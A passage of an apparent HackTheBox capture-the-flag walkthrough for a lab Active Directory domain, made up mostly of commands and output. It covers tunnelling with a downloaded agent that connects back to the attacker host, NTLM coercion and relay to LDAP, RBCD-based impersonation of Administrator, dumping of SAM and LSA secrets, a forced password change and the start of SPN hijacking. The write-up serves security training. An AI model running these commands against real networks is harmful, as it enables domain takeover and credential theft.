   ___                              _      / _ \     ___  ___ _ __ __ _  ___| | __  / /_\/____/ __|/ __| '__/ _` |/ __| |/ // /_\\_____\__ \ (__| | | (_| | (__|   <    \____/     |___/\___|_|  \__,_|\___|_|\_\                        fscan version: 1.8.4start infoscan
(icmp) Target 192.168.100.1   is alive
(icmp) Target 192.168.100.2   is alive
[*] Icmp alive hosts len is: 2
192.168.100.2:808 open
192.168.100.1:88 open
192.168.100.2:445 open
192.168.100.2:443 open
192.168.100.2:139 open
192.168.100.2:135 open
192.168.100.2:80 open
192.168.100.1:445 open
192.168.100.1:139 open
192.168.100.1:135 open
[*] alive ports len is: 10
start vulscan
[*] NetInfo
[*]192.168.100.1
   [->]DC01
   [->]192.168.100.1
   [->]10.129.17.202
[*] NetInfo
[*]192.168.100.2
   [->]WEB01
   [->]192.168.100.2
[*] WebTitle http://192.168.100.2      code:200 len:703    title:IIS Windows Server
```

To access the internal network we set up `Ligolo-ng` tunneling through our `gMSA_ADFS_prod$` session on `DC01`

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/serve]
└─$ sudo ./proxy -selfcert
[sudo] password for kali: 
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] daemon configuration file not found. Creating a new one... 
? Enable Ligolo-ng WebUI? No
WARN[0006] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0006] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0006] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                                                                                                                                                                                                                                                                                                                                                                         
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                                                                                                                                                                                                                                                                                                         
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                                                                                                                                                                                                                                                                                                          
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                                                                                                                                                                                                                                                                                                           
        /____/                          /____/                                                                                                                                                                                                                                                                                                                                                                                            
                                                                                                                                                                                                                                                                                                                                                                                                                                          
  Made in France ♥            by @Nicocha30!                                                                                                                                                                                                                                                                                                                                                                                              
  Version: 0.8.3                                                                                                                                                                                                                                                                                                                                                                                                                          
                                                                                                                                                                                                                                                                                                                                                                                                                                          
```

After setting up a new `interface`, we added the required `route` to send our traffic to and connected the `agent` back to our `proxy`.

```shell
ligolo-ng » ifcreate --name ligolo
INFO[0016] Creating a new ligolo interface...           
INFO[0016] Interface created!                           
```

```shell
ligolo-ng » route_add --name ligolo --route 192.168.100.1/24
INFO[0034] Route created.
```

```cmd
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> iwr 10.10.16.10/agent.exe -o agent.exe
```

```cmd
*Evil-WinRM* PS C:\Users\gMSA_ADFS_prod$\Documents> .\agent.exe -connect 10.10.16.10:11601 -ignore-cert
agent.exe : time="2026-03-06T13:26:37-08:00" level=warning msg="warning, certificate validation disabled"
time="2026-03-06T13:26:37-08:00" level=info msg="Connection established" addr="10.10.16.10:11601"
```

```shell
ligolo-ng » INFO[0685] Agent joined.                                 id=00155d0bd000 name="PIRATE\\gMSA_ADFS_prod$@DC01" remote="10.129.17.202:52227"
```

As last step we selected our newly created `session` and `started` it.

```shell
ligolo-ng » session
? Specify a session : 1 - PIRATE\gMSA_ADFS_prod$@DC01 - 10.129.17.202:52227 - 00155d0bd000
```

```shell
[Agent : PIRATE\gMSA_ADFS_prod$@DC01] » start
INFO[0760] Starting tunnel to PIRATE\gMSA_ADFS_prod$@DC01 (00155d0bd000)
```

After we confirmed that we were able to reach `WEB01` we added it to our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ ping -c 1 192.168.100.2
PING 192.168.100.2 (192.168.100.2) 56(84) bytes of data.
64 bytes from 192.168.100.2: icmp_seq=1 ttl=64 time=106 ms

--- 192.168.100.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 105.640/105.640/105.640/0.000 ms
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.17.202   pirate.htb
10.129.17.202   DC01.pirate.htb
192.168.100.2   WEB01.pirate.htb
```

## Privilege Escalation to SYSTEM (WEB01)

### Relaying Attack

A environment like the one we had to deal with always brings up the potential for `Relaying Attacks`. We tested `DC01` and `WEB01` if we could `coerce` authentication between them.

We noticed while `DC01` had `SMB` signing enabled and required `WEB01` had no SMB signing enabled which made it an ideal target for `NTLM` relay attacks.

To exploit this configuration we needed to coerce authentication from `WEB01` to our machine then relay that `NTLM` authentication to `LDAP` on `DC01`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb DC01.pirate.htb -u 'GMSA_ADFS_PROD$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09' -M ntlm_reflection -M coerce_plus
SMB         10.129.17.202   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:pirate.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.17.202   445    DC01             [+] pirate.htb\GMSA_ADFS_PROD$:fd9ea7ac7820dba5155bd6ed2d850c09 
COERCE_PLUS 10.129.17.202   445    DC01             VULNERABLE, DFSCoerce
COERCE_PLUS 10.129.17.202   445    DC01             VULNERABLE, PetitPotam
COERCE_PLUS 10.129.17.202   445    DC01             VULNERABLE, PrinterBug
COERCE_PLUS 10.129.17.202   445    DC01             VULNERABLE, PrinterBug
COERCE_PLUS 10.129.17.202   445    DC01             VULNERABLE, MSEven
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb WEB01.pirate.htb -u 'GMSA_ADFS_PROD$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09' -M ntlm_reflection -M coerce_plus
SMB         192.168.100.2   445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         192.168.100.2   445    WEB01            [+] pirate.htb\GMSA_ADFS_PROD$:fd9ea7ac7820dba5155bd6ed2d850c09 
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PetitPotam
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, MSEven
```

The first step was to set up `impacket-ntlmrelayx` to listen for incoming `NTLM` authentication and relay it to `LDAP` on the Domain Controller.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-ntlmrelayx -t ldap://DC01.pirate.htb -smb2support --delegate-access --remove-mic --interactive
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

With the relay server running we triggered authentication from `WEB01` using the coerce module pointing it to our listener.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb WEB01.pirate.htb -u 'GMSA_ADFS_PROD$' -H 'fd9ea7ac7820dba5155bd6ed2d850c09' -M coerce_plus -o LISTENER=10.10.16.10
SMB         192.168.100.2   445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         192.168.100.2   445    WEB01            [+] pirate.htb\GMSA_ADFS_PROD$:fd9ea7ac7820dba5155bd6ed2d850c09 
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PetitPotam
COERCE_PLUS 192.168.100.2   445    WEB01            Exploit Success, efsrpc\EfsRpcAddUsersToFile
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, PrinterBug
COERCE_PLUS 192.168.100.2   445    WEB01            Exploit Success, spoolss\RpcRemoteFindFirstPrinterChangeNotificationEx
COERCE_PLUS 192.168.100.2   445    WEB01            VULNERABLE, MSEven
```

The relay attacks succeeded. Multiple authenticated sessions from `WEB01$` were relayed to `LDAP` on `DC01` and `ntlmrelayx` started interactive `LDAP` shells for us to use. We connected to the `LDAP` shell on `127.0.0.1`, port `11000`, to get a prompt as `WEB01$`.

```shell
<--- CUT FOR BREVITY --->
[*] (SMB): Received connection from 10.129.17.202, attacking target ldap://DC01.pirate.htb
[*] (SMB): Authenticating connection from PIRATE/WEB01$@10.129.17.202 against ldap://DC01.pirate.htb SUCCEED [1]
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [1] -> Started interactive Ldap shell via TCP on 127.0.0.1:11000 as PIRATE/WEB01$
[*] (SMB): Received connection from 10.129.17.202, attacking target ldap://DC01.pirate.htb
[*] (SMB): Authenticating connection from PIRATE/WEB01$@10.129.17.202 against ldap://DC01.pirate.htb SUCCEED [2]
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [2] -> Started interactive Ldap shell via TCP on 127.0.0.1:11001 as PIRATE/WEB01$
[*] (SMB): Received connection from 10.129.17.202, attacking target ldap://DC01.pirate.htb
[*] (SMB): Authenticating connection from PIRATE/WEB01$@10.129.17.202 against ldap://DC01.pirate.htb SUCCEED [3]
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [3] -> Started interactive Ldap shell via TCP on 127.0.0.1:11002 as PIRATE/WEB01$
[*] (SMB): Received connection from 10.129.17.202, attacking target ldap://DC01.pirate.htb
[*] (SMB): Authenticating connection from PIRATE/WEB01$@10.129.17.202 against ldap://DC01.pirate.htb SUCCEED [4]
[*] ldap://PIRATE/WEB01$@dc01.pirate.htb [4] -> Started interactive Ldap shell via TCP on 127.0.0.1:11003 as PIRATE/WEB01$
[*] (SMB): Received connection from 10.129.17.202, attacking target ldap://DC01.pirate.htb
[*] (SMB): Authenticating connection from /@10.129.17.202 against ldap://DC01.pirate.htb SUCCEED [5]
[*] ldap:///@dc01.pirate.htb [5] -> Started interactive Ldap shell via TCP on 127.0.0.1:11004 as /
[*] (SMB): Authenticating connection from /@10.129.17.202 against ldap://DC01.pirate.htb SUCCEED [6]
[*] ldap:///@dc01.pirate.htb [6] -> Started interactive Ldap shell via TCP on 127.0.0.1:11005 as /
[*] (HTTP): Client requested path: /abcdefgh/aa
[*] (HTTP): Client requested path: /abcdefgh/aa
[*] (HTTP): Client requested path: /abcdefgh/aa
[*] (HTTP): Client requested path: /abcdefgh/aa
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc 127.0.0.1 11000 
Type help for list of commands

#
```

```shell
# whoami
u:PIRATE\WEB01$
```

### Resource-Based Constrained Delegation (RBCD)

Now that we had an authenticated `LDAP` session as `WEB01$`, we could leverage this to configure `Resource-Based Constrained Delegation` (`RBCD`) and allow ourselves to `impersonate` any user we wanted to. Like the administrator for example.

We used our interactive `LDAP` shell and configured `RBCD` to allow `WEB01$` to impersonate any user to itself.

```shell
# set_rbcd WEB01$ gMSA_ADFS_prod$
Found Target DN: CN=WEB01,CN=Computers,DC=pirate,DC=htb
Target SID: S-1-5-21-4107424128-4158083573-1300325248-3102

Found Grantee DN: CN=gMSA_ADFS_prod,CN=Managed Service Accounts,DC=pirate,DC=htb
Grantee SID: S-1-5-21-4107424128-4158083573-1300325248-4108
Currently allowed sids:
    S-1-5-21-4107424128-4158083573-1300325248-3102
Delegation rights modified successfully!
gMSA_ADFS_prod$ can now impersonate users on WEB01$ via S4U2Proxy
```

The delegation rights were successfully configured. Now we used the `gMSA_ADFS_prod$` account to request a service ticket impersonating `Administrator` on `WEB01`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ impacket-getST -spn 'cifs/WEB01.pirate.htb' -impersonate Administrator -hashes :fd9ea7ac7820dba5155bd6ed2d850c09 'pirate.htb/gMSA_ADFS_prod$'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

We exported the ticket and verified our access. We successfully impersonated `Administrator` through the `S4U2Proxy` delegation.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ export KRB5CCNAME=Administrator@cifs_WEB01.pirate.htb@PIRATE.HTB.ccache
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb WEB01.pirate.htb -u 'WEB01$' -H feba09cf0013fbf5834f50def734bca9 --delegate Administrator --self
SMB         WEB01.pirate.htb 445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         WEB01.pirate.htb 445    WEB01            [+] pirate.htb\Administrator through S4U with WEB01$ (Pwn3d!)
```

Next we dumped credentials from `WEB01` including the local `Administrator` hash and domain credentials for `a.white`. With these credentials we established a session on `WEB01`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec smb WEB01.pirate.htb -u 'WEB01$' -H feba09cf0013fbf5834f50def734bca9 --delegate Administrator --self --lsa --sam
SMB         WEB01.pirate.htb 445    WEB01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB01) (domain:pirate.htb) (signing:False) (SMBv1:None)
SMB         WEB01.pirate.htb 445    WEB01            [+] pirate.htb\Administrator through S4U with WEB01$ (Pwn3d!)
SMB         WEB01.pirate.htb 445    WEB01            [*] Dumping SAM hashes
SMB         WEB01.pirate.htb 445    WEB01            Administrator:500:aad3b435b51404eeaad3b435b51404ee:b1aac1584c2ea8ed0a9429684e4fc3e5:::
SMB         WEB01.pirate.htb 445    WEB01            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         WEB01.pirate.htb 445    WEB01            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         WEB01.pirate.htb 445    WEB01            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:60da2d3ba00d6b5932e4c87dce6fa6b4:::
SMB         WEB01.pirate.htb 445    WEB01            [+] Added 4 SAM hashes to the database
SMB         WEB01.pirate.htb 445    WEB01            [*] Dumping LSA secrets
SMB         WEB01.pirate.htb 445    WEB01            PIRATE.HTB/Administrator:$DCC2$10240#Administrator#8baf09ddc5830ac4456ee8639dd89644: (2026-02-25 02:41:09)
SMB         WEB01.pirate.htb 445    WEB01            PIRATE.HTB/gMSA_ADFS_prod$:$DCC2$10240#gMSA_ADFS_prod$#66812dfee46ff41c9c8245a2819c3183: (2026-03-06 00:23:40)
SMB         WEB01.pirate.htb 445    WEB01            PIRATE.HTB/a.white:$DCC2$10240#a.white#366c8924be3ea6d1d12825569a4bcc39: (2026-03-06 00:21:37)
SMB         WEB01.pirate.htb 445    WEB01            PIRATE\WEB01$:plain_password_hex:29f1505d87014b01b4317fed1d52ddbee2792a698e7e1de1bcdf29ab5d4b8e54828ce470d23491ba84e82d786622a821a14c730cf8610a32db1951b7619ee08c3bcacbab53aac8e052bd64e638c6bbd9529daacf04f86cfb9034808c4378d2c328c8c6afe7655f4a099dc41caeb6279c53313edcbd58db3e14490b7543ba3250ac200ec9834992b61b3f4319162645b50f402de4db0843fc43db7d54e04828abf86e490959bc88670e50f0b50373a3745f70039f8fd032435c4a725526957c7ae0dbaa81273b3aa28c0b029fea90c271b6601ef3ba7a05a13ec8c8ffd9999dd10eee87b4b9eb08a8a4af90710056f558                                                                                                                                                                                                                                                                                              
SMB         WEB01.pirate.htb 445    WEB01            PIRATE\WEB01$:aad3b435b51404eeaad3b435b51404ee:feba09cf0013fbf5834f50def734bca9:::
SMB         WEB01.pirate.htb 445    WEB01            PIRATE\a.white:E2nvAOKSz5Xz2MJu
SMB         WEB01.pirate.htb 445    WEB01            dpapi_machinekey:0x01cffc2ef9a91d20107371f9a4a4112c892ed989
dpapi_userkey:0xa4fddb1b2df2db7cc3d044dc1b559bc1b45a1de9
SMB         WEB01.pirate.htb 445    WEB01            _SC_GMSA_DPAPI_{C6810348-4834-4a1e-817D-5838604E6004}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11:e3ef474b98138dd4469f6dc176f879ba1e0817ba44502187b9080b9f3334c91b9b1af1ce4e91fb562c8d8824412c700e00d105bc674d8e26a594e3da4173f2c87313d634b39c3412d4bfb6849247686df6065b536566807e0ace92f94ea3166bb9752d12d352c89b9fdafa7d3171e4dd55be9d585504f8c628a0ff4c670d7595a909a3c9a7ec2dff984e5ddf77049a91a5597f0a39c5499455675901cce41aded98d80a1b5f7f82cc220b590df4bfc0bfc5f0feb66e73a56f1ab7fe914c6d7cd2b83e0b9065b76e02bc330f7694416f3acd6c463df84923500b64a1014e74413809a7a06af577ce7685bfd2ab56a2067                                                                                                                                                                                                        
SMB         WEB01.pirate.htb 445    WEB01            _SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11:01000000220100001000000012011a01b6c4083911a28350b1fd6948803650e1b1c5741f7719b1f4ff926203dcdf4ec9c0369b7b92fe10a2d7ff953bfa406a3b6786523ed82767cc8fe2734af892e98efbef2b3476759032b4ecdef34276c363b8a9410b63d809ea6ef167f5b541d73c3ac4214da22a14d97982c928d91bb971fe99d4809c1ebdeae8e769c6b3377ee1a478dffbb2ddc13318be131167d1a4a01833a4c27e0512690d73de1e59a01761ec7d40fc1882050cbf439d9cbb281a06d4bf8d85d1feb2740ec399eca0e46e36990b72b2c4a64ae009bafb3dfd264ff734b63fb922609e8c305883a75d9aef75ce37bca0910436590d9312fca46ad89a61a89bddc873197de48eab3d69b9e49800001941b01b7317000019e3df6872170000                                                                                                          
SMB         WEB01.pirate.htb 445    WEB01            GMSA ID: a09ca32bc7cd2ce752ae0143bd203f0551564c04dd2846c4ed3e4e5a61cc9f11 NTLM: 841fae962662f0c2f0178d01d178ec3e
SMB         WEB01.pirate.htb 445    WEB01            [+] Dumped 9 LSA secrets to /home/kali/.nxc/logs/lsa/WEB01_WEB01.pirate.htb_2026-03-06_233808.secrets and /home/kali/.nxc/logs/lsa/WEB01_WEB01.pirate.htb_2026-03-06_233808.cached
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i WEB01.pirate.htb -u 'Administrator' -H 'b1aac1584c2ea8ed0a9429684e4fc3e5'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## user.txt

```shell
*Evil-WinRM* PS C:\Users\a.white\Desktop> type user.txt
ffafbb233fc29e9051192e66a33050c3
```

## Privilege Escalation to SYSTEM (DC01)

### Access Control Entry (ACE) ForceChangePassword Abuse

Analyzing the `BloodHound` data from the `a.white` user context revealed `ForceChangePassword` permissions on `a.white_adm` an administrative account.





We had the credentials for `a.white` which we extracted earlier from `WEB01`.

| Username | Password         |
| -------- | ---------------- |
| a.white  | E2nvAOKSz5Xz2MJu |

Using `bloodyAD` we leveraged the `ForceChangePassword` permission to change the password of `a.white_adm`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ bloodyAD --host 10.129.17.202 -d pirate.htb -u a.white -p E2nvAOKSz5Xz2MJu set password 'a.white_adm' 'P@ssw0rd'
[+] Password changed successfully!
```

The `a.white_adm` account had `Constrained Delegation with Protocol Transition` to `http/WEB01.pirate.htb`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ netexec ldap DC01.pirate.htb -u 'a.white_adm' -p 'P@ssw0rd' --find-delegation
LDAP        10.129.17.202   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:pirate.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.17.202   389    DC01             [+] pirate.htb\a.white_adm:P@ssw0rd 
LDAP        10.129.17.202   389    DC01             AccountName     AccountType                         DelegationType                     DelegationRightsTo                     
LDAP        10.129.17.202   389    DC01             --------------- ----------------------------------- ---------------------------------- ---------------------------------------
LDAP        10.129.17.202   389    DC01             a.white_adm     Person                              Constrained w/ Protocol Transition http/WEB01.pirate.htb, HTTP/WEB01      
LDAP        10.129.17.202   389    DC01             WEB01$          Computer                            Resource-Based Constrained         WEB01$                                 
LDAP        10.129.17.202   389    DC01             gMSA_ADFS_prod$ ms-DS-Group-Managed-Service-Account Resource-Based Constrained         WEB01$
```

The `SPN` must be `unique` across the entire AD, therefore we needed to move it from `WEB01$` to `DC01$` in order to abuse it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Pirate/files]
└─$ bloodyAD --host 10.129.17.202 -d pirate.htb -u a.white_adm -p P@ssw0rd get object 'WEB01$' --attr servicePrincipalName  

distinguishedName: CN=WEB01,CN=Computers,DC=pirate,DC=htb
servicePrincipalName: tapinego/WEB01; tapinego/WEB01.pirate.htb; WSMAN/WEB01; WSMAN/WEB01.pirate.htb; HOST/WEB01.pirate.htb; RestrictedKrbHost/WEB01.pirate.htb; HOST/WEB01; RestrictedKrbHost/WEB01; TERMSRV/WEB01.pirate.htb; TERMSRV/WEB01; HTTP/WEB01; HTTP/WEB01.pirate.htb
```

### Service Principal Name (SPN) Hijacking

Since we needed an `HTTP` SPN on the Domain Controller we could create one through `SPN` hijacking. By moving the `HTTP/WEB01` SPN from `WEB01$` to `DC01$` we could trick the Kerberos authentication into thinking the Domain Controller offered this service.

To pull this off we used the `msldap` branch of `bloodyAD` for the SPN manipulation.

- [https://github.com/CravateRouge/bloodyAD/tree/msldap](https://github.com/CravateRouge/bloodyAD/tree/msldap)

We set up the required environment for this version of `bloodyAD`.

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD_msldap]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.12.final.0-64 in 514ms
  creator CPython3Posix(dest=/home/kali/opt/10_post_exploitation/bloodyAD_msldap/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.cache/virtualenv)
    added seed packages: pip==26.0.1
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD_msldap]
└─$ source venv/bin/activate
```

```shell
┌──(venv)─(kali㉿kali)-[~/opt/10_post_exploitation/bloodyAD_msldap]
└─$ pip3 install -r requirements.txt 
Processing ./.
  Installing build dependencies ... done
  Getting requirements to build wheel ... done
  Preparing metadata (pyproject.toml) ... done
Collecting asn1crypto==1.5.1 (from bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading asn1crypto-1.5.1-py2.py3-none-any.whl.metadata (13 kB)
Collecting badldap>=0.7.5 (from bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading badldap-0.7.5-py3-none-any.whl.metadata (1.1 kB)
Collecting cryptography==44.0.2 (from bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading cryptography-44.0.2-cp39-abi3-manylinux_2_34_x86_64.whl.metadata (5.7 kB)
Collecting kerbad>=0.5.10 (from bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading kerbad-0.5.10-py3-none-any.whl.metadata (885 bytes)
Collecting winacl==0.1.9 (from bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading winacl-0.1.9-py3-none-any.whl.metadata (458 bytes)
Collecting cffi>=1.12 (from cryptography==44.0.2->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl.metadata (2.6 kB)
Collecting unicrypto>=0.0.12 (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading unicrypto-0.0.12-py3-none-any.whl.metadata (386 bytes)
Collecting badauth>=0.1.6 (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading badauth-0.1.6-py3-none-any.whl.metadata (854 bytes)
Collecting asysocks>=0.2.18 (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading asysocks-0.2.18-py3-none-any.whl.metadata (435 bytes)
Collecting prompt-toolkit>=3.0.2 (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading prompt_toolkit-3.0.52-py3-none-any.whl.metadata (6.4 kB)
Collecting tqdm (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading tqdm-4.67.3-py3-none-any.whl.metadata (57 kB)
Collecting wcwidth (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading wcwidth-0.6.0-py3-none-any.whl.metadata (30 kB)
Collecting tabulate (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading tabulate-0.10.0-py3-none-any.whl.metadata (40 kB)
Collecting unidns>=0.0.3 (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading unidns-0.0.4-py3-none-any.whl.metadata (468 bytes)
Collecting dnspython>=2.7.0 (from badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading dnspython-2.8.0-py3-none-any.whl.metadata (5.7 kB)
Collecting h11>=0.14.0 (from asysocks>=0.2.18->badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading h11-0.16.0-py3-none-any.whl.metadata (8.3 kB)
Collecting pycparser (from cffi>=1.12->cryptography==44.0.2->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading pycparser-3.0-py3-none-any.whl.metadata (8.2 kB)
Collecting six (from kerbad>=0.5.10->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading six-1.17.0-py2.py3-none-any.whl.metadata (1.7 kB)
Collecting pycryptodomex (from unicrypto>=0.0.12->badldap>=0.7.5->bloodyAD==2.5.4->-r requirements.txt (line 1))
  Downloading pycryptodomex-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl.metadata (3.4 kB)
Downloading asn1crypto-1.5.1-py2.py3-none-any.whl (105 kB)
Downloading cryptography-44.0.2-cp39-abi3-manylinux_2_34_x86_64.whl (4.2 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 4.2/4.2 MB 21.0 MB/s  0:00:00
Downloading winacl-0.1.9-py3-none-any.whl (89 kB)
Downloading badldap-0.7.5-py3-none-any.whl (369 kB)
Downloading asysocks-0.2.18-py3-none-any.whl (149 kB)
Downloading badauth-0.1.6-py3-none-any.whl (116 kB)
Downloading cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl (219 kB)
Downloading dnspython-2.8.0-py3-none-any.whl (331 kB)
Downloading h11-0.16.0-py3-none-any.whl (37 kB)
Downloading kerbad-0.5.10-py3-none-any.whl (164 kB)
Downloading prompt_toolkit-3.0.52-py3-none-any.whl (391 kB)
Downloading unicrypto-0.0.12-py3-none-any.whl (75 kB)
Downloading unidns-0.0.4-py3-none-any.whl (15 kB)
Downloading pycparser-3.0-py3-none-any.whl (48 kB)
Downloading pycryptodomex-3.23.0-cp37-abi3-manylinux_2_17_x86_64.manylinux2014_x86_64.whl (2.3 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 2.3/2.3 MB 48.8 MB/s  0:00:00
Downloading six-1.17.0-py2.py3-none-any.whl (11 kB)
Downloading tabulate-0.10.0-py3-none-any.whl (39 kB)
Downloading tqdm-4.67.3-py3-none-any.whl (78 kB)
Downloading wcwidth-0.6.0-py3-none-any.whl (94 kB)
Building wheels for collected packages: bloodyAD
  Building wheel for bloodyAD (pyproject.toml) ... done
  Created wheel for bloodyAD: filename=bloodyad-2.5.4-py3-none-any.whl size=117653 sha256=6204a4eef6f7e6a7889c4b2df23ae2ceea03bc965addf9ee3341b96fc0dd0505
  Stored in directory: /tmp/pip-ephem-wheel-cache-pwfbm9rb/wheels/40/55/15/e6734d54c615eaecda2fde320e385200a238cf43e540d62236
Successfully built bloodyAD
Installing collected packages: asn1crypto, wcwidth, tqdm, tabulate, six, pycryptodomex, pycparser, h11, dnspython, unicrypto, prompt-toolkit, cffi, cryptography, winacl, asysocks, unidns, kerbad, badauth, badldap, bloodyAD
